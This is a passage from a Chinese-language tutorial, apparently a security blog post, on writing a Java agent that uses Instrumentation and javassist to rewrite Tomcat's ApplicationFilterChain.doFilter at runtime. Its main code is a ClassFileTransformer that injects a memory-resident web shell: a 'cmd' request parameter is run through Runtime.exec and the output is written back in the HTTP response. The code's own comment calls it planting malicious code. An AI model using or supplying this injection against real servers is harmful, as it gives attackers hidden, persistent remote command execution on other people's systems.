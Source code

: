 创建新项目，结构如下所示（忽略其中的 `` ，这个包是其他的测试代码）：

![][p1]

其中，类 `AgentMainTest` 需要实现 `agentmain(String agentArgs, Instrumentation instrumentation)` 方法；且需要在 `src\main\META-INF\MANIFEST.MF` 中指定 `Agent-Class: AgentMainTest` 。如下图所示：

![][p2]

在 `AgentMainTest#agentmain()` 中实现对特定类进行字节码修改。在修改之前，先普及一下 `Instrumentation` 的几个需要用到的方法：

- `Instrumentation#addTransformer(ClassFileTransformer transformer)` 方法：从当前时间开始，后续所有的类在进行加载前，需要先经过此方法配置的Transformer来进行字节码转换；
- `retransformClasses(Class<?>... classes)` 方法：该方法是JDK1.6后添加的。对于已经加载过的类，可以执行retransformClasses()来重新触发Transformer。类加载的字节码被修改后，除非再次被retransform，否则不会恢复。

所以，一个简单的 `AgentMainTest#agentmain()` 实现代码如下所示：

![][p3]

接下来就是 `ClassFileTransformer` 的具体实现了，就是具体的字节码修改逻辑，一个参考如下：

    new ClassFileTransformer() {
        @SneakyThrows
        @Override
        public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
            // 因为获取的keyClass格式为：org/apache/catalina/core/ApplicationFilterChain，转一下
            className = className.replace('/', '.');
            // 找到待修改的目标类
            if (keyClass.equals(className)) {
                System.out.println(":::::::::::::::::::Find Key Class:" + className + ":::::::::::::::::::");
                // 接下来就是使用javassist修改目标类的字节码了
                ClassPool cp = ClassPool.getDefault();
                if (classBeingRedefined != null) {
                    ClassClassPath classPath = new ClassClassPath(classBeingRedefined);
                    cp.insertClassPath(classPath);
                }
                CtClass cc = cp.get(className);
                // 修改目标类的doFilter方法
                CtMethod m = cc.getDeclaredMethod("doFilter");
                // 在方法前植入恶意代码
                m.insertBefore(" javax.servlet.ServletRequest req = request;\n" +
                        "            javax.servlet.ServletResponse res = response;" +
                        "String cmd = req.getParameter(\"cmd\");\n" +
                        "if (cmd != null) {\n" +
                        "Process process = Runtime.getRuntime().exec(cmd);\n" +
                        "java.io.BufferedReader bufferedReader = new java.io.BufferedReader(\n" +
                        "new java.io.InputStreamReader(process.getInputStream()));\n" +
                        "StringBuilder stringBuilder = new StringBuilder();\n" +
                        "String line;\n" +
                        "while ((line = bufferedReader.readLine()) != null) {\n" +
                        "stringBuilder.append(line + '\\n');\n" +
                        "}\n" +
                        "res.getOutputStream().write(stringBuilder.toString().getBytes());\n" +
                        "res.getOutputStream().flush();\n" +
                        "res.getOutputStream().close();\n" +
                        "}");
                byte[] byteCode = cc.toBytecode();
                cc.detach();
                return byteCode;
            }
            return classfileBuffer;
        }
    };
